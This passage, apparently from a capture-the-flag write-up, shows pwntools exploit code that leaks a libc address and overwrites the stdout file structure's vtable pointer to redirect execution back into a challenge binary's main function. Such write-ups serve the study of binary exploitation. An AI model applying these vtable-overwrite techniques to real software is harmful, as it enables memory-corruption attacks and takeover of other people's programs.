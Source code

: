 ```python
p.recvuntil(b'0x')
libc.address = int(p.recvline()[:-1], 16) - libc.sym['puts']
log.info(hex(libc.address))
stdout = libc.address + 0x3c5620
stdout_IO_file_jumps = stdout + 0xd8
```

Next, with the first input, we will input with address of `main()` at `inp+0x38` because we will want to overwrite `__IO_file_jumps` with `inp`:

```python
payload = p64(exe.sym['main'])
p.sendline(payload)
p.sendline(f'{stdout_IO_file_jumps}'.encode())
p.sendline(f'{exe.sym["inp"]-0x38}'.encode())
```

Because we want address of `main()` at the begining of our payload so we need to overwrite `__IO_file_jumps` with `inp-0x38`. Execute script will help us jump back to main at `puts()` and `printf()`, which means when it jump back to main and meet `printf()`, it will jump to main again. Therefore, we cannot input anything.

To solve this, let's jump right after `printf@plt`:

```python
payload = p64(exe.sym['main'] + 54)
p.sendline(payload)
p.sendline(f'{stdout_IO_file_jumps}'.encode())
p.sendline(f'{exe.sym["inp"]-0x38}'.encode())
```

![main-+54.png](images/main-+54.png)

